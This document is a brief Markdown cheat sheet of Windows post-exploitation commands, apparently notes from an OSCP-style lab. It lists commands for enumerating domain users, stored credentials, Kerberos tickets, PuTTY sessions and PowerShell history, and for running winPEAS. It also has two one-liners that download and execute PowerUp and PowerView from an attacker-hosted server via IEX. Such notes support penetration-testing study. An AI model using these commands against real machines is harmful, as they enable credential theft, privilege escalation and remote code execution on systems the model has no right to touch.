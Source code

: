 ```
net user /domain

$env.AppKey
cmdkey /list
ipconfig
netstat -ano -p tcp
whoami /all
Get-ChildItem *.txt *.zip -recurse -ErrorAction SilentlyContinue -Force
Get-ChildItem C:\Users\offsec\AppData *.txt -recurse -ErrorAction SilentlyContinue -Force

Get-Process
 .\winPEASx64.exe log
 .\winPEAS.bat log
```

show kerberos tickets
`klist`

Check putty session
```
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

CheckPowershell History
```
Get-ChildItem "ConsoleHost_history.txt" -recurse -ErrorAction SilentlyContinue -Force
(Get-PSReadlineOption).HistorySavePath
```

Download and run PowerUP
```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.230:8000/PowerUp.ps1'); PowerUp
```

Download and run Powerview
```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.230:8000/PowerView.ps1'); PowerView
```

```
schtasks /query /fo LIST /v
```

Start a service
```
powershell -c "Start-Service -Name AuditTracker"
```

Get a list of Scheduled tasks
```
Get-ScheduledTask
```

Get a list of services
```
Get-Service
```
